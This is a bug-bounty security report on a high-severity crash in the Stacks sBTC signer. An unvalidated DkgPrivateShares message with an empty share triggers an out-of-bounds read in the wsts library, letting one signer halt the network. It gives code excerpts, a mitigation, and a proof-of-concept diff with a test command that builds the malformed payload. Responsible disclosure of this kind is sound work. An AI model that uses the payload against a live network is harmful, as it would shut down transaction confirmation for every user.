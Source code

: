 # #37814 \[BC-High] Signers can crash other signers by sending an invalid \`DkgPrivateShares\` due to missing check before passing the payload to \`SignerStateMachine::process\`

**Submitted on Dec 16th 2024 at 16:26:55 UTC by @n4nika for** [**Attackathon | Stacks**](https://immunefi.com/audit-competition/stacks-attackathon-1)

* **Report ID:** #37814
* **Report Type:** Blockchain/DLT
* **Report severity:** High
* **Target:** https://github.com/stacks-network/sbtc/tree/immunefi\_attackaton\_0.9/signer
* **Impacts:**
  * Network not being able to confirm new transactions (total network shutdown)

## Description

## Summary

Signers do not verify received `DkgPrivateShares` payloads enough, allowing any signer to send such a payload with a `share` containing an empty `bytes` object, which will cause the signer to crash due to an OOB read in the `wsts` library.

## Finding Description

When a signer receives a `DkgPrivateShares` message, they process the received message without doing much verification of the message:

`transaction_signer.rs::handle_wsts_message`

```rs
WstsNetMessage::DkgPrivateShares(dkg_private_shares) => {
    tracing::info!(
        signer_id = %dkg_private_shares.signer_id,
        "handling DkgPrivateShares"
    );
    let public_keys = match self.wsts_state_machines.get(&msg.txid) {
        Some(state_machine) => &state_machine.public_keys,
        None => return Err(Error::MissingStateMachine),
    };
    let signer_public_key = match public_keys.signers.get(&dkg_private_shares.signer_id)
    {
        Some(key) => PublicKey::from(key),
        None => return Err(Error::MissingPublicKey),
    };

    if signer_public_key != msg_public_key {
        return Err(Error::InvalidSignature);
    }
    self.relay_message(msg.txid, &msg.inner, bitcoin_chain_tip)
        .await?;
}
```

In `relay_message`, the `msg.inner` gets passed to `process`:

```rs
async fn relay_message(
    &mut self,
    txid: bitcoin::Txid,
    msg: &WstsNetMessage,
    bitcoin_chain_tip: &model::BitcoinBlockHash,
) -> Result<(), Error> {
    let Some(state_machine) = self.wsts_state_machines.get_mut(&txid) else {
        tracing::warn!("missing signing round");
        return Ok(());
    };

    let outbound_messages = state_machine.process(msg).map_err(Error::Wsts)?;
    // [...]
}
```

After a few steps, this then calls `wsts::dkg_private_shares` which calls `wsts::decrypt`:

```rs
pub fn decrypt(key: &[u8; 32], data: &[u8]) -> Result<Vec<u8>, AesGcmError> {
    let nonce_vec = data[..AES_GCM_NONCE_SIZE].to_vec();
    let cipher_vec = data[AES_GCM_NONCE_SIZE..].to_vec();
    let nonce = Nonce::from_slice(&nonce_vec);
    let cipher = Aes256Gcm::new(key.into());

    cipher.decrypt(nonce, cipher_vec.as_ref())
}
```

Here `key` and `data` are passed and taken from the `DkgPrivateShares` message without validation. Since there is no validation, the slicings will cause the program to crash since it accesses OOB memory.

## Impact

Since `DkgPrivateShares` messages are accepted by any signer and not only the coordinator, this allows ANY signer in the signer set to crash all other signers, causing a complete network shutdown.

## Mitigation

Consider verifying the validity of received wsts payloads either in the signer itself or the `wsts` library.

## Proof of Concept

## PoC

In this PoC I simulate sending such a malformed payload.

Please apply the following diff and execute the test with `cargo test --package signer --test integration -- transaction_coordinator::sign_bitcoin_transaction --exact --show-output --ignored --nocapture`. This will crash at `<PATH>/.cargo/git/checkouts/wsts-deb3c7c6853b6eab/ebd7d77/src/util.rs:66:25`.

```diff
diff --git a/signer/src/transaction_signer.rs b/signer/src/transaction_signer.rs
index e5aa9575..662a19c1 100644
--- a/signer/src/transaction_signer.rs
+++ b/signer/src/transaction_signer.rs
@@ -613,7 +613,25 @@ where
                 if signer_public_key != msg_public_key {
                     return Err(Error::InvalidSignature);
                 }
-                self.relay_message(msg.txid, &msg.inner, bitcoin_chain_tip)
+
+                let mut msg_copy = msg.clone();
+
+                let out = match msg_copy.inner {
+                    wsts::net::Message::DkgPrivateShares(mut msg) => {
+                        for (id, second) in msg.shares.clone() {
+                            for (key, bytes) in second {
+                                let mut reference = msg.shares[0].1.get_mut(&key).unwrap();
+                                let mut vec: Vec<u8> = Vec::new();
+                                *reference = vec;
+                                break;
+                            }
+                        }
+                        wsts::net::Message::DkgPrivateShares(msg)
+                    },
+                    _ => {msg_copy.inner}
+                };
+
+                self.relay_message(msg.txid, &out, bitcoin_chain_tip)
                     .await?;
             }
             WstsNetMessage::DkgEndBegin(_) => {

```
